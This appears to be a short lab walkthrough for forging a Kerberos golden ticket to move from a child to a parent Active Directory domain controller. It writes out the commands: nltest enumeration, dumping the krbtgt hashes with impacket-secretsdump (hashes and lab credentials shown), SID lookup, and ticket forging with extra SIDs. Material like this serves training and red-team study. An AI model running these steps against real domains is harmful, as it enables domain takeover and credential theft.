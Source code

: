 

### Craft a Golden Ticket

#### Get Domain infomation

Get a shell with evil-winrm and run this commands on a Windows Machine:

```powershell
nltest /trusted_domains
nltest /dclist:parent.com
```

#### Get KRBTGT Hash

We are local administrator in the Child Domain Controller. Let's extract the
&#x20;hash of “**krbtgt**” account using `impacket-secretsdump` tool. We will forge
&#x20;a golden ticket to compromise the Parent Domain Controller.

{% code overflow="wrap" %}
```bash
impacket-secretdump -debug child/corpmngr:'User4&*&*'@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'

# Results:

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900

krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
```
{% endcode %}

#### Get SID of the Child and Parent DC

Using `impacket-lookupsid` tool we will extract DC SIDs

```bash
impacket-lookupsid child/corpmngr:'User4&*&*'@child.warfare.corp

impacket-lookupsid child/corpmngr:'User4&*&*'@warfare.corp
```

#### Forge the ticket

Using `impacket-ticketer` tool we will craft the golden ticket.

{% code overflow="wrap" %}
```bash
impacket-ticketer -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid $CHILD_DC_SID -groups 516 -user-id 1106 -extra-sid $PARENT_DC_SID,S-1-5-9 'corpmngr'
```
{% endcode %}

Now we have the `.ccache` file. Let's set it to the env variable

```bash
export KRB5CCNAME=corpmngr.ccache
```
